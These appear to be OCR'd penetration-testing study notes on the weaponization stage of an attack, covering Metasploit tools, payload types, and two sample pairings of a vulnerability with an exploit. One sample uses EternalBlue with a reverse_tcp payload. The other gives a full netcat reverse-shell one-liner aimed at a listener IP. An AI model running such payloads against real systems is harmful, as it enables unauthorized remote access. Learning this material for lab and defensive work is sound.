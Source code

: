 
    INPUT             |      PROCESS                 |       TOOLS                           |      OUTPUT
----------------------|------------------------------|---------------------------------------|------------------
    Information       |     Creation of Weapon       |       Vulnerability Repositories      |      Weapon
    Network map       |                              |       Development                     |      
        IPs           |                              |       msfconsole                      |
        Ports         |                              |       msfvenom                        |
        Services      |
        Firewalls     |
        Users         |
    Vulnerability     |            
                                                   
                                                    
[Weapon]             [Exploit]        An exploit is a code that is written to take advantage of a specific Vulnerability in a system.
                     [Payload]        Payload is the code that actually does something.    
                        [RS]         Reverse Shell that need 
                        [Malware]    Malicious Software
[Msfvenom]           Standalone payload generator
[Windows]            Weapon types: WSH, HTA, VBA, PSH


# Sample

VULN        ms17-010 [CVE-2017-0143]
TOOLS       msfconsole     
Exploit     exploit/windows/smb/ms17_010_eternalblue 
Payload     windows/x64/shell/reverse_tcp

VULN        Online Book Store 1.0 - Unauthenticated Remote Code Execution
TOOLS       Python   
Exploit     https://www.exploit-db.com/exploits/47887  
Payload     rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.56.2 4444 > /tmp/f